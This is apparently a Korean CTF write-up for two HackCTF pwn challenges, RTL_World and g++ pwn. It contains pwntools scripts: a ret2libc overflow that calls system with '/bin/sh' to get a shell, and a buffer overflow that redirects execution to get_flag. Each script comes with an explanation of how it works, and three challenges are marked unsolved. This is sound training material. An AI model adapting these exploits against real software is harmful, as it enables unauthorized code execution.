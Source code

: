# HACKCTF 
## RTL_World  
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3010)
system=0x080485b0
binsh=0x8048eb1

r.recv(1024)
r.sendline("5")
r.recvuntil("[Attack] > ")
payload = 'A'*144+p32(system)+'A'*4+p32(binsh)
r.sendline(payload)
r.interactive()
~~~
우선 nc를 통해 실행시켜봤더니 엄청 복잡하다.
우선 입력할 수 있는 부분을 먼저 찾으니 선택부분과 5번 kill 부분에서 입력 가능하다.
case 5에서는 read 함수로 buf에 입력을 받음으로 여기서 공격이 가능하다.
또한 아이다에서 system 함수의 주소를 얻었다.
system 함수의 인자로 사용될 bin/sh값을 objdump | grep /bin/sh 함수로 찾아준다.
이제 payload를 dummy(144) | system 주소 | ret(4) | binsh 주소 이렇게 구성시켜주면
shell을 얻을 수 있다. 롸이트업을 계속 보고 하게 된다ㅠㅠ
## g++ pwn
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3011)
flag=0x08048f0d
payload = 'A'*4 + 'I'*20+p32(flag)
r.sendline(payload)
r.interactive()
~~~
ida를 통해 열어보니 메인 함수에는 vuln 함수만 포함되어 있다. 그리고 get_flag라는 함수의 존재를 알 수 있다.
flag는 이 함수를 통해 얻는다고 예상했다. vuln 함수의 경우에 fgets 함수로 32개를 받으므로 ret까지 도달하지 못하게 되어있다. 
어떻게 풀어야할지 감이 안 잡혀서 wirteup을 보니 replace함수를 이용해야 한다. 
replace 함수는 "I"를 "YOU"로 대체하는데 dummy의 크기를 3배 늘려 버퍼에 복사가능하도록 해준다. 
따라서 dummy 값으로 "I"를 사용하고 ret에는 get_flag의 주소를 집어넣으면 flag를 얻을 수 있다. 
## poet
**풀지 못했습니다**
## 1996
**풀지 못했습니다**
## Random Key
**풀지 못했습니다**
